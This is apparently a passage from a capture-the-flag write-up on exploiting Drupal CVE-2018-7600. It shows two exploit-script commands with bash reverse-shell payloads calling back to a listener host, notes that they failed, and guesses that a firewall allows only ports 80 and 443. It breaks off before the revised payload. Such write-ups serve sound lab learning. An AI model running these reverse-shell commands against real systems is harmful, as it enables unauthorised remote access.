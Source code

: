 > Reverse shell failed test

```
python drupa7-CVE-2018-7600.py -c "bash -c 'bash -i >& /dev/tcp/10.10.17.145/1338 0>&1'"  http://10.129.48.89
```

![](./IMG/24.png)

```
python drupa7-CVE-2018-7600.py -c "bash -i >& /dev/tcp/10.10.17.145/1338 0>&1" http://10.129.48.89
```

![](./IMG/25.png)

> By researching the different reverse shell payload, and the root cause of can't establish the connection.
 > I suddenly had an idea that it might be caused by the firewall or WAF only allowing ports 80 and 443 to be open externally.
 > So, I change the reverse shell as follow: 
 